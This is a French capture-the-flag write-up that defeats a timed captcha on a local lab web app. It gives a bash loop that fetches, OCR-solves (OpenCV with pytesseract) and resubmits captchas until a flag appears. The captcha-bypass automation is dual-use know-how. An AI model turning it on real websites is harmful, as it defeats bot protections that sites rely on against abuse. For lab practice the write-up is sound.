 # Challenge
Get Out !

## Enonce
Vous êtes pris dans un état hypnotique, et pour vous échapper, vous devrez faire preuve d'un dernier effort de lucidité et de rapidité. Votre esprit sera mis à l'épreuve, et si vous échouez, l'hypnose reprendra le contrôle. C'est votre seule chance de ne pas sombrer.

## Solution
En arrivant sur la page d'accueil, on nous invite à commencer un challenge.
Aussitot, un captcha de 11 caractères s'affiche et seulement 4 secondes sont données pour y le renseigner.

![image](assets/capture_index.png)

Lorsque l'on capture les échanges HTTP, nous obtenons une première requète GET `/generate-catcha` qui permet de charger une image catcha sur l'écran de l'utilisateur :

![image](assets/capture_burp_generate.png)

Puis en tentant d'envoyer une valeur arbitraire, nous obtenons une requête POST `/validate-catcha` :

![image](assets/capture_burp_validate.png)

Si nous tentons de rejouer la requête POST cela indique que la session a expiré :

![image](assets/capture_burp_validate_2.png)

Il faut alors scripter pour tenter de rentrer dans les temps.
La premières étape va donc etre d'enregistrer un captcha puis chercher si des solutions existent permettant de le résoudre rapidement.

Le fichiers assets/scripts.js nous renseigne sur l'endroit où l'on pourra effectuer le téléchargerement de l'image :

![image](assets/capture_scripts_js.png)

Une rapide recherche sur notre navigateur préféré nous remonte 2 outils de résolution de captcha qui semblent plutôt populaires : `gocr` et `pytesseract`

Un code déjà tout prêt est disponible dans ce lien : [pytesseract script link](https://gist.github.com/lobstrio/da95d31bff3f83a5e95ee9daeb253107)

Ne reste plus qu'à tester ... (Il se peut que certaines erreurs se fassent en fonction de la lisibilité du captcha)

![image](assets/capture_test_script.png)

Nous avons maintenant notre outil pour résoudre le captcha.

Reste désormais à autormatiser tout ça.

***solve.sh***
```
#/bin/bash

HOST="127.0.0.1"
PORT="666"
DEST_IMAGE="/tmp/img_chall_getout.png"
i=0
while true; do
  i=$((i+1))
  # Génération du captcha
  response=$(curl -s -i http://${HOST}:${PORT}/generate-captcha)

  # Extraire le cookie "session_id"
  session_id=$(echo "${response}" | grep -Fi "Set-Cookie" | sed -n 's/Set-Cookie: session_id=\(.*\);.*/\1/p')
  # Extraire le nom de fichier (corps de la réponse)
  file_name=$(echo "${response}" | tail -n 1)

  # Télécharger le captcha généré
  curl -s http://${HOST}:${PORT}/static/captchas/${file_name} -o ${DEST_IMAGE}
  # Executer le script de résolution de captcha
  ocr=$(python3 resolve_captcha.py ${DEST_IMAGE})

  # Soumission du captcha résolu
  result=$(curl -s -X POST http://${HOST}:${PORT}/validate-captcha -b session_id=${session_id} -d captcha=${ocr})
  echo "Test ${i} -> $ocr -> ${result}"
  # Stopper la boucle si la chaine "ENI{" (format du flag) est comprise dans la réponse
  if echo "${result}" | grep -q "ENI{"; then
    break
  fi
  rm -f ${DEST_IMAGE}
done

```

***resolve_captcha.py***
```
import cv2
from pytesseract import image_to_string
import re
import sys

# pip3 install opencv-python
# pip3 install pytesseract
# MacOS : brew install tesseract

# Filename donné en parametre au sein du script solve.sh
filename = sys.argv[1]
img = cv2.imread(filename)
gry = cv2.cvtColor(img, cv2.COLOR_BGR2GRAY)
(h, w) = gry.shape[:2]
gry = cv2.resize(gry, (w*2, h*2))
cls = cv2.morphologyEx(gry, cv2.MORPH_CLOSE, None)
thr = cv2.threshold(cls, 0, 255, cv2.THRESH_BINARY | cv2.THRESH_OTSU)[1]
txt = image_to_string(thr)
txt_cleaned = re.sub(r"[^a-zA-Z0-9À-ÿ'\"!@#$%^&*()_+={}\[\]:;,.<>?\/\\|-]", "", txt)
print(txt_cleaned)

```

En lançant le script bash `solve.py`, une requête curl va effectuer une génération de captcha, le télécharger, puis tenter de le déchiffrer. Pour finir, le script soumettra la valeur trouvée.
Cette boucle se répétera jusqu'à ce qu'une réponse comportant le début du flag apparaisse :

![image](assets/capture_flag.png)

## Hints
- Existe-il des outils ou scripts populaires permettant de resoudre les captchas sur lesquels s'appuyer ?
- On me souffle à l'oreillette de se renseigner sur la librairie pytesseract
